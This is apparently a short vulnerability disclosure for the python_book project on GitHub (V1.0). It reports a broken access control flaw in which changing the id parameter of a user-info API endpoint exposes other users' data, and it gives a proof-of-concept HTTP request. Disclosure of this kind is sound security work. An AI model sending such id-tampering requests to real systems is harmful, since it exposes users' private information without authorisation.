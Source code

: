 target:https://github.com/geeeeeeeek/python_book version: V1.0

The system has a Broken Access Control vulnerability, which allows attackers to obtain sensitive information of users with different IDs by modifying the ID parameter.

POC:

```
GET /api/myapp/index/user/info?id=418 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
Access-Control-Allow-Headers: adminToken, token,Content-Type
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://book.gitapp.cn/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

![acc5d419f7bc1b503fbafb9f6fd2d78](./assets/acc5d419f7bc1b503fbafb9f6fd2d78.png)

![a9a9464a356349224064f8d294d4ecf](./assets/a9a9464a356349224064f8d294d4ecf.png)